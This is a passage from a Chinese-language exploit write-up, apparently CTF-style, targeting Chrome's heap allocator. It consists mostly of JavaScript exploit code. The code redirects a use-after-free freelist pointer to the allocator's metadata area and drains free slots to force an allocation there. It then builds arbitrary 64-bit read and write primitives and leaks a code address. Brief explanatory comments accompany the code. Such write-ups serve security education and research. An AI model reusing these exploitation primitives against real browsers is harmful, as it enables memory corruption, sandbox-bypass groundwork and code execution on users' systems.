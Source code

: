 ```
}
```

得到了上述信息我们就可以着手将内存分配到MetadataArea来获取chrome基地址：
```
        leaks[0] = i2f(swap(BigInt(metadata_area)));
		uaf.set(leaks, 0);
		success("hijack uaf'fd to metadata_area");
```
首先将uaf的backing store的指针修改为metadata_area。

```
		// uas all free slot, assume only alloc 1 time
		bins = []
		count = 0
		for(let i = 0; i < 100000; i++){
			leaks.set(uaf, 0);
			var tmp_fd = f2i(leaks[0]);
			if(tmp_fd != 0){
				bins.push(new ArrayBuffer(8*arry_size));
				count = count + 1;
			}
			else{
				break;
			}
		}
		if(count > 90000){
			throw 2;
		}
```

这里来不停消耗free slot，停止的标志就是fd不为0（也就是我们设置的metadata_area，也就意味着我们下次分配就会到达metadata_area）

		
```
		console.log('[+] after', hex(count), 'try fd = null');
		leaks.set(uaf, 0);

		try{
			var metadata = new BigUint64Array(new ArrayBuffer(8));
			success("should over metadata now");
		}
		catch(error){
			throw 100;
		}
```
到这里我们就得到了metadata_area。

接下来是arbitrary read and write：
```
    function read64(addr){
			metadata[0] = addr;
			var tmp_obj = new BigUint64Array(new ArrayBuffer(8));
			var leaked = swap(metadata[0]);
			tmp_obj[0] = BigInt(leaked);
			return leaked;
		}
		
	 function write64(addr, value){
			metadata[0] = addr;
			var tmp_obj = new BigUint64Array(new ArrayBuffer(8));
			tmp_obj[0] = value;
		}
		
		
		var code_leak = read64(BigInt(metadata_area)+0x10n);
		success_value("code leak: ", code_leak);
```